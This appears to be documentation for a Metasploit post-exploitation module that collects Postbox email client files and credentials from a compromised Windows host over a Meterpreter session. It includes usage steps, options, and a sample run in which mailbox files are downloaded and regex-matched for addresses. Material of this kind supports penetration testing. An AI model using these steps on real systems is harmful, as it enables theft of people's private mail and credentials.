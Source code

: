 ## Module Description

This post-exploitation module gathers artifacts found on Postbox related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/postbox
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_CREDENTIALS
This option is turned on by defalt and will perform the credentials extraction use the predefined regular expression. The 'Store loot' options must be turned on in order for this to take place.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/credentials/postbox) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Postbox's parent folder found
[*] Postbox's Inbox file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\PostboxApp\Profiles\b6yf1u6g.default\ImapMail\outlook.office365.com\INBOX
[*] Postbox Inbox downloaded
[+] File saved to:  /root/.msf4/loot/20210513064136_default_192.168.56.106_postboxINBOX_465924.bin

[+] To:Subject:Date:MIME-Version:Reply-To:List-ID:X-CSA-Complaints:
[+] To:<*************@outlook.jp>
[+] To:"NoReplyOneDrive"<reply-fed017787564057e-25_HTML-166935770-7231722-937213@mail.onedrive.com>
[+] To:Subject:Date:MIME-Version:Reply-To:List-ID:X-CSA-Complaints:
[+] From:"MicrosoftOneDrive"<email@mail.onedrive.com>
[+] From:To:Subject:Date:MIME-Version:Reply-To:List-ID:X-CSA-Complaints:

[+] File with credentials saved:  /root/.msf4/loot/20210513064136_default_192.168.56.106_EXTRACTIONINBOX_835546.bin
[*] Postbox's parent folder found
[*] Postbox's Sent* file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\PostboxApp\Profiles\b6yf1u6g.default\ImapMail\outlook.office365.com\Sent-1.msf
[*] Postbox Sent-1.msf downloaded
[+] File saved to:  /root/.msf4/loot/20210513064137_default_192.168.56.106_postboxSent1.ms_354629.msf

  ```